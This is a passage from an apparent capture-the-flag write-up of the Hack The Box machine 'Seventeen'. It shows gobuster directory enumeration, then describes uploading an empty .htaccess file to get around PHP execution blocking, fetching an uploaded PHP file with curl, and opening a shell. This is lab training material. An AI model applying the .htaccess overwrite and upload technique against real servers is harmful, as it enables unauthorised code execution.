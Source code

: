 ```markdown
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ gobuster dir -u http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234 -w /usr/share/seclists/Discovery/Web-Content/Roundcube-123.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/Roundcube-123.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 18]

...SNIP...
```

Given that, I though I can bypass the PHP execution blocking by overwriting `.htaccess` file.

First, I prepared an empty `.htaccess` file. (`htaccess` initially, and prepend dot(.) later)

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ touch htaccess
```

Then, I uploaded it using `oldmanagement` domain.
I changed the file name as follows;

![](attachments/seventeen_22.png)

Then, let's fetch the same php file (`papers.php`) directly.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ curl http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/papers.php
```

Soon, I can open a shell with listener in the same method.
